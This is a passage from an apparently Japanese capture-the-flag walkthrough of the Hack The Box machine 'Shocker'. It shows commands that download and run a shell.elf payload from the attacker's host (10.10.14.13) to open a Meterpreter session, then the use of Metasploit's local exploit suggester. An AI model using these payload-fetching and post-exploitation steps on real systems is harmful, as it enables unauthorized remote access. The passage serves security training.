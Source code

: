 先ほどの reverseshell から

```
shelly@Shocker:/home/shelly$ wget http://10.10.14.13:8000/shell.elf
wget http://10.10.14.13:8000/shell.elf
--2020-02-27 12:07:09--  http://10.10.14.13:8000/shell.elf
Connecting to 10.10.14.13:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: 'shell.elf'

     0K                                                       100% 32.0M=0s

2020-02-27 12:07:10 (32.0 MB/s) - 'shell.elf' saved [207/207]


shelly@Shocker:/home/shelly$ chmod 700 shell.elf
chmod 700 shell.elf
shelly@Shocker:/home/shelly$ ./shell.elf
./shell.elf

```

これで msfconsole 側を見てみると反応が返ってきています。

```
[*] Meterpreter session 1 opened (10.10.14.13:1313 -> 10.10.10.56:39484) at 2020-02-27 11:41:24 -0500

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

## suggesterを使う
reverseshell をとって何をすれば良いか分からなかったので、suggester を使いたくてわざわざ meterpreter に繋ぎ直しました。

```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run
```